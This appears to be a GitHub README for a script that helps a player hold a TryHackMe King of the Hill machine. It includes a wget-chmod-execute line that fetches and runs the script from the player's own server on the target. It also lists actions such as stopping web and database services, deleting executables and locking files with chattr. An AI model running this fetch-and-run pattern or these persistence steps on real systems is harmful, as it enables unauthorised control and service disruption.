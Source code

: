 # The KOTH Script

<p align="center">
  <img src="king.png" alt="King">
</p>

**NOTE: Respect TryHackMe Rules: The KOTH Script is intended for recreational purposes within authorized environments, such as private games. Always adhere to the rules and guidelines provided by TryHackMe or any other platform you are using. The creator of this script is not responsible for any misuse or violation of terms. Use it responsibly and ethically.**

The KOTH Script is a powerful tool created by H3X-007 to ensure that you are the ultimate KING in King of the Hill challenges. It automates various actions and configurations to secure your position as the reigning champion.

## Features

- Sets the user nickname as the KING in the `/root/king.txt` file.
- Applies necessary patches to enhance security.
- Stops critical services like Tomcat, Nginx, and MariaDB.
- Restricts file permissions and removes certain executables.
- Monitors and updates the KING nickname in real-time.

## Usage

1. Clone the repository:
    
       git clone https://github.com/H3X-007/KOTH-Scripts.git

2. Change to the KOTH-Scripts directory:
       
       cd KOTH-Script 

3. Start a Python HTTP server on port 80:
  
       python3 -m http.server 80  

4. On the KOTH machine, execute the KOTH.sh script:
  
       wget http://YOUR-VPN-IP/KOTH.sh && chmod +x KOTH.sh && ./KOTH.sh

5. Enter your desired nickname when prompted.

6. Sit back and enjoy being the KING! The script will continuously update the KING nickname in the `/root/king.txt` file to maintain your dominance.

#### NOTE : Please ensure that the Python server is running on port 80 before executing the KOTH script.The KOTH script relies on the server to retrieve and run the check & chattr & guardian scripts. Once the check & chattr & guardian scripts are obtained and executed, you can safely close the Python server.

## Contributing

Contributions are welcome! If you have any suggestions, bug reports, or feature requests, please open an issue or submit a pull request.

## Note
Please comment out the lines that include "chattr -i" and "chattr +i" when you want to run the script on "Production" game.
